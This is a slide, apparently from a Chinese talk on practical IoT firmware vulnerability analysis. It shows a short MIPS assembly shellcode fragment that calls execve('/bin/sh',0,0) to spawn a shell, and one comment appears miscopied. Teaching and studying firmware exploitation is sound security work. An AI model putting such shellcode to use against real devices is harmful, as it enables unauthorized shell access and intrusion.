

实战IOT固件漏洞分析
execve(“/bin/sh”,0,0)
slti    a2,zero,-1		# if(0<-1) a2=1 else a2=0
ori t3,t3,0xff5c
lui a0, 0x77f9
ori a0, a0, 0x2d28		# a0 = “/bin/sh” address
slti a1, zero, -1		# if(0<-1) a2=1 else a2=0
li v0, 4011
syscall 0x40404		# execve(“/bin/sh”,0,0)